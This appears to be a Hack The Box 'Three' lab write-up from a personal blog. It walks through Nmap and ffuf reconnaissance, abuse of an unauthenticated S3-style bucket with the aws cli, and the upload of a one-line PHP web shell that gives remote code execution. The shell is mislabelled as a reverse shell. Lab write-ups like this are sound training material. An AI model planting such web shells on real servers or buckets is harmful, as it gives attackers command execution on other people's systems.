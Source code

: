 ```yaml
---
layout: post
title:  HTB - Three
subtitle: Pwning Three
date:   2022-11-24
tags: [writeup, cybersecurity]
author: Patrick Castro
comments: True
---
```


Vulnerability: Insecure File Upload in AWS S3 Bucket

<br>

Requirements:
- aws cli - (`sudo apt-get install awscli`)

<br>

## Steps:
1. Conducting an Nmap scan to the given IP, will result to 2 open TCP ports (22 and 80).

    ```
    Nmap scan report for 10.129.113.143
    Host is up (0.57s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    ```

    > Note: Finding a port 80 means that there is a web application.

2. Browsing the web app (http://ip), the domain/hostname can be found in the contact section in the email address (mail@thetoppers.htb) - **thetoppers.htb**.
    ![2](/assets/img/three/2.png)

3. Given the IP address and the domain, add the ip address with the corresponding hostname in the /etc/hosts file.
    Edit the hosts file using `sudo nano /etc/hosts/` or `sudo subl /etc/hosts/`.

    ```
    [snip]

    10.129.113.143   thetoppers.htb
    ```

4. Now, the web application is accessible using http://thetoppers.htb/ 

5. Enumerating subdomains using `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" -fw 1832`, s3.thetoppers.htb is present. And navigating to http://s3.thetoppers.htb/ results to:
    ![5](/assets/img/three/5.png)
    > This is a Amazon S3 service

6. Knowing this is an Amazon S3 service, there is a tool in command line called `aws cli`. Install aws cli in Kali.

7. Configure the AWS using `aws configure`, inputting just '`a`' will suffice.
    ![7](/assets/img/three/7.png)

8. List the contents of the bucket using `aws s3 ls s3://thetoppers.htb`. 
   ![8](/assets/img/three/8.png)

9. Should specify the endpoint `--endpoint http://thetoppers.htb`. Now the contents of the S3 bucket is listed. Also PHP as scripting language is known that the application used (index.php).
    ![9](/assets/img/three/9.png)

10. We can try uploading a malicious file using `aws s3 cp s3://`


11. First, we need a malicious file (reverse shell).
    
    ```php
    <?php system($_GET['cmd']); ?>
    ```
12. Now we can upload the file using this command `aws s3 --endpoint=http://s3.thetoppers.htb cp /home/kali/Desktop/transfer/shell.php s3://thetoppers.htb`.
    ![12](/assets/img/three/12.png)

13. Going back to the web application, a remote code execution is now possible.
    ![13](/assets/img/three/13.png)
    ![14](/assets/img/three/14.png)
    ![15](/assets/img/three/15.png)

Thanks for reading!

<br>

#### References:
- https://app.hackthebox.com/starting-point
- https://medium.com/quiknapp/fuzz-faster-with-ffuf-c18c031fc480
